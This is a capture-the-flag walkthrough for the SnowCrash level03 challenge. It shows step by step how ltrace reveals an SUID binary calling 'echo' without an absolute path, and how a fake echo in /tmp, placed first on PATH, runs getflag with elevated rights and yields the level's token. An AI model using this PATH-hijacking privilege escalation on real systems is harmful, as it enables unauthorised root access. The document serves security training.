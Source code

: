 In home directory we have executable file with SUID attribute:
```shell
level03@SnowCrash:~$ ls -la level03 
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03 
Exploit me
```
Using ltrace - a library call tracer.
ltrace is a program that simply runs the specified command
until  it  exits.   It  intercepts and records the dynamic
library calls which are called by the executed process and
the  signals  which  are received by that process.
```shell
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                               = 2003
geteuid()                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                  = 0
+++ exited (status 0) +++
```
We can see here 
<system("/usr/bin/env echo Exploit me"Exploit me>
that echo command is called without absolute path. This is a common path vulnerability. 

Real echo command can be changed with fake one.
When the setuid attribute is set on a file, the normal user who executes the file is elevated to the root.
End we can call the getflag command from fake echo file with root privilege.
```shell
level03@SnowCrash:~$ echo getflag > /tmp/echo 
level03@SnowCrash:~$ chmod +x /tmp/echo
```
Changing the PATH to run fake echo command before real echo
```shell
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ echo $PATH
/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```
Now running our file:
```shell
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```